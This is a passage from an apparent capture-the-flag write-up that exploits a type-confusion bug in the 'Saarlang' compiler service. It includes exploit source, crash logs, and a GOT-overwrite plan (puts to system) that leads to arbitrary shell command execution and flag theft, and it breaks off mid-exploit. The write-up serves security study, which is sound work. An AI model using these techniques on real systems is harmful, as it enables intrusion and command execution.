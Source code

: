Effectively, we're confusing a `lischd int` to an `int` to leak the array address.
But we can do the opposite, and confuse an `int` to a `lischd int` (`z.sl` is unchanged):

```
$ cat import.sl
eija foo(x: int) gebbtserick lischd int: {}

$ cat entry.sl
holmol "import.sl";

eija main() gebbtserick int: {
    var a: lischd int = mach foo(1094795585);
    a@0 = 1234;
}

$ ./exploit
CODE SIGNATURES: {"entry.sl":"9f843d0683b423b90c204b2a76342978093b3dc9a14f53157a77af7d9a33254a","import.sl":"b0c61d26bf4541d2ef3c5812e5c3ac331c787ef1894e4eac083781bb7c7752b3","z.sl":"7f5c72fee8fe6324b9a6b34daf8bc0e3945456e19fc643605e51655fde01f6aa"}
--- Saarlang execution starts ---

$ dmesg | tail -n2
[17200.393984] MHD-single[20251]: segfault at 41414141 ip 00007f3f698e501f sp 00007f3f655f1110 error 4
[17200.393988] Code: 00 00 00 00 00 00 00 00 00 00 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 50 bf 41 41 41 41 e8 1b 00 00 00 48 89 04 24 <48> 83 38 00 74 0c 48 c7 40 08 d2 04 00 00 31 c0 59 c3 e8 06 00 00
```

Now, we confused the integer 0x41414141 to an integer array, and crashed on exactly that address when trying to access it.
Note that the crash does not happen in the actual element access, but in the bounds check before it, which accesses the `length` field at the beginning of `sl_array_int`.

Confusing an integer to an array gives us arbitrary address read/write capability.
By default, this binary is compiled without PIE and with partial RELRO.
I noticed that the binary imports `system` (to run the compiled code under `prlimit`), and the `sahmol_as_str` standard library function is implemented as follows:

```cpp
sl_int println_as_str(sl_array_byte *x) {
	puts((char *) x->data);
	return 0;
}
```

Therefore, we can execute arbitrary commands easily by overwriting the `puts` GOT entry with the address of the `system` PLT entry, and then calling `sahmol_as_str` on a byte array containig an arbitrary shell command.
We just have to make sure that the `length` field of the confused array overlaps something with a big enough value for the index we'll be using.
For example, for the command `egrep -roh 'SAAR\{[A-Za-z0-9\-_]{32}\}' ../../data/caves` (`z.sl` and `import.sl` are unchanged):

```
$ cat entry.sl
holmol "import.sl";
holmol "stdlib.sl";

eija main() gebbtserick int: {
    var c: lischd byte = neie lischd byte(56);
    c@0=101;c@1=103;c@2=114;c@3=101;c@4=112;c@5=32;c@6=45;c@7=114;c@8=111;c@9=104;c@10=32;c@11=39;c@12=83;c@13=65;c@14=65;c@15=82;c@16=92;c@17=123;c@18=91;c@19=65;c@20=45;c@21=90;c@22=97;c@23=45;c@24=122;c@25=48;c@26=45;c@27=57;c@28=92;c@29=45;c@30=95;c@31=93;c@32=123;c@33=51;c@34=50;c@35=125;c@36=92;c@37=125;c@38=39;c@39=32;c@40=46;c@41=46;c@42=47;c@43=46;c@44=46;c@45=47;c@46=100;c@47=97;c@48=116;c@49=97;c@50=47;c@51=99;c@52=97;c@53=118;c@54=101;c@55=115;
    var a: lischd int = mach foo(5122416);
```